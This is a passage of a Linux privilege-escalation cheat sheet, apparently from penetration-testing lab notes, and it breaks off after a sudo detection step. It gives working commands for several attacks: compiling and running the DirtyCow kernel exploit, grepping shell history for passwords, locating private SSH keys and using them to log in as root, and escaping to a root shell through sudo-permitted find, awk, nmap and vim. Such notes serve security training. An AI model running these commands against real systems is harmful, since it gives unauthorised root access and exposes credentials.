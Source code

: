 # Privilage Escalation

### Kernel Exploits

**Detection:**

1. In command prompt type:`/home/user/tools/linux-exploit-suggester/linux-exploit-suggester.sh`
2. From the output, notice that the OS is vulnerable to “dirtycow”.

**Exploitation:**

1. In command prompt type: `gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0w`
2. In command prompt type: `./c0w`
   * **Disclaimer: This part takes 1-2 minutes - Please allow it some time to work.**
3. In command prompt type: `passwd`
4. In command prompt type: `id`

### Stored passwords&#x20;

`cat ~/.bash_history | grep -i passw`

### SSH Keys

**Detection:**

1. In command prompt type: `find / -name authorized_keys 2> /dev/null`
2. In a command prompt type: `find / -name id_rsa 2> /dev/null`
3. Note the results.

**Exploitation:**

1. In command prompt type: `chmod 400 id_rsa`
2. In command prompt type: `ssh -i id_rsa root@<ip>`

### Sudo (Shell Escaping)

**Detection:**

1. In command prompt type: `sudo -l`
2. From the output, notice the list of programs that can run via sudo.

**Exploitation:**

1. In command prompt type any of the following:
   1. `sudo find /bin -name nano -exec /bin/sh \;`
   2. `sudo awk 'BEGIN {system("/bin/sh")}'`
   3. `echo "os.execute('/bin/sh')" > shell.nse && sudo nmap --script=shell.nse`
   4. `sudo vim -c '!sh'`

### Sudo (Abusing Intended Functionality)

**Detection:**

1. In command prompt type: `sudo -l`
2. From the output, notice the list of programs that can run via sudo.
